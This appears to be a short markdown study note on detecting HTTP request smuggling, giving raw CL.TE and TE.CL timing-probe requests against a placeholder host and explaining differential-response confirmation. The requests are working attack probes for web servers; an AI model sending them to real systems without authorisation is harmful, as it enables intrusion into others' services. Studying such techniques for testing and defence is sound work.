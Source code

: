 ```
: chunked
```

## How to identify HTTP request smuggling

### Using timing techniques

#### Finding CL.TE vulnerabilities

- if the application is vulnerable to the CL.TE variant of request smuggling, sending a request like the following will often cause a time delay:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

- front-end uses `Content-Length`, it will forward only part of this request, omitting X
- back-end uses `Transfer-Encoding`, processes the first chunk, and waits for the next chunk to arrive and will cause an observable time delay

#### Findng TE.CL vulnerabilities

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

- front-end uses `Transfer-Encoding`, it will forward only part of this request, omitting the X
- back-end uses `Content-Length`, expect more content in the message body and will cause time delay

### Confirming HTTP request smuggling vulnerabilities using differential responses

- sending two requests to the application in quick succession:

  - attack request that is designed to interfere with the processing of the next request
  - normal request

- if the response to the normal request contains the expected interference, the vulnerability is confirmed.
